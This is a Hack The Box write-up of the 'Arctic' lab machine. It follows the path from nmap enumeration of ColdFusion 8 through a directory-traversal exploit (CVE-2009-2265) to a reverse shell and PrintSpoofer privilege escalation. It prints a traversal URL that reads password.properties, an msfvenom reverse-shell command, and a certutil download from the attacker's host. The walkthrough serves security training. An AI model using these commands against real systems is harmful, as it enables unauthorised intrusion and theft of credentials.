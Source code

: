 ```yaml
---
description: 10.10.10.11
---
```


# Arctic

## Nmap

```
sudo nmap -Pn -p- 10.10.10.11 --min-rate=5000
```

![](<../../../../.gitbook/assets/image (8) (1).png>)

Ran a script script based on open ports

{% code overflow="wrap" %}
```bash
# Nmap 7.92 scan initiated Wed Aug 10 16:56:59 2022 as: nmap -Pn -p135,8500,49154 -sCV -O -v -oN script-scan.txt 10.10.10.11
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.040s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.009 days (since Wed Aug 10 16:46:55 2022)
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 10 16:59:18 2022 -- 1 IP address (1 host up) scanned in 139.14 seconds
```
{% endcode %}

## FMTP Port 8500

{% embed url="https://www.eurocontrol.int/service/flight-message-transfer-protocol-address-coordination" %}

> Flight Message Transfer Protocol (FMTP) is a communication stack based on the transmission control and internet protocols (TCP/IP). It is used in a peer-to-peer communication context for the information exchange between flight data processing systems for the purpose of notification, coordination and transfer of flights between air traffic control units and for the purposes of civil-military cooperation.

I look to see if there's anything interesting that can be looked at on the browser on this particular port

![](<../../../../.gitbook/assets/image (5) (1).png>)

Clicking on `CFIDE` leads to some pretty interesting findings

![](<../../../../.gitbook/assets/image (11) (1).png>)

I'm most interested in the `administrator` link, so going there takes me to an Admin page!

![](<../../../../.gitbook/assets/image (7) (1).png>)

## Searchsploit

I search for any public exploits in searchsploit

![](<../../../../.gitbook/assets/image (9) (1).png>)

The Remote Code Execution python script catches my eye so I'll view that one

![](<../../../../.gitbook/assets/image (6) (1).png>)

{% embed url="https://www.exploit-db.com/exploits/50057" %}

{% embed url="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2265" %}

> Multiple directory traversal vulnerabilities in FCKeditor before 2.6.4.1 allow remote attackers to create executable files in arbitrary directories via directory traversal sequences in the input to unspecified connector modules, as exploited in the wild for remote code execution in July 2009, related to the file browser and the editor/filemanager/connectors/ directory.

## Foothold #1 - RCE Script

This python script does it all! We'll change the listening host IP and port number (in case firewall rules don't like weird port numbers)&#x20;

Then we run it and get a shell!

![](<../../../../.gitbook/assets/image (2) (1).png>)

## Foothold #2 - Directory Traversal

There was also a metasploit module for directory traversal. I was curious about it so I checked it out and found this

{% embed url="https://www.exploit-db.com/exploits/14641" %}

![](<../../../../.gitbook/assets/image (4) (1).png>)

I decided to do this without the python script since you technically don't need to

{% code overflow="wrap" %}
```
http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
{% endcode %}

As you can see, there's a password that's encrypted, so we should crack it.

### Cracking the hash

![](<../../../../.gitbook/assets/image (18).png>)

```
happyday
```



From my understanding, essentially whatever password you type, it takes the encrypted form of it and checks if it matches the valid one. Which is why when you type a password, or just hit login, you get this weird string of weird numbers and letters

![](<../../../../.gitbook/assets/image (1) (1).png>)

Here I'm typing in `password`

![](<../../../../.gitbook/assets/image (74).png>)

![](<../../../../.gitbook/assets/image (76).png>)

It's the same length, however it didn't get cracked. However I believe, theoretically, this is how it works.

![](<../../../../.gitbook/assets/image (75).png>)

&#x20;Because we have a password, we can log in!

![](<../../../../.gitbook/assets/image (15).png>)

### Getting a shell

This is an excellent resource I found that could assist with getting a reverse shell

{% embed url="https://pentest.tonyng.net/attacking-adobe-coldfusion/" %}

Generate our payload with  msfvenom

{% code overflow="wrap" %}
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f raw > revshell.jsp
```
{% endcode %}

Schedule a New Task

![](<../../../../.gitbook/assets/image (10).png>)

Make sure to save the output to a file in a valid directory. I had to check for what it was on google

[https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf](https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf)

![](<../../../../.gitbook/assets/image (8).png>)

Before you run the scheduled task, make sure to have a web server (I use python) running so it will download your payload

![](<../../../../.gitbook/assets/image (4).png>)

![](<../../../../.gitbook/assets/image (1).png>)

![](<../../../../.gitbook/assets/image (7).png>)

Now start your listener and go to the file in your web browser to catch a shell!

![](<../../../../.gitbook/assets/image (12).png>)

## Priv Esc

### SystemInfo

![](<../../../../.gitbook/assets/image (14).png>)

```
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC
```

### whoami /all

![](<../../../../.gitbook/assets/image (16).png>)

A couple of options we could use here are either Juicy Potato or PrintSpoofer

I will try PrintSpoofer since it is easier and quicker

{% embed url="https://github.com/itm4n/PrintSpoofer" %}

I'll transfer it to the target machine

```
certutil.exe -urlcache -f http://10.10.14.14/PrintSpoofer64.exe PrintSpoofer64.exe
```

![](<../../../../.gitbook/assets/image (11).png>)







## Resources

[https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf](https://help.adobe.com/archive/en\_US/coldfusion/8/cf8\_install.pdf)

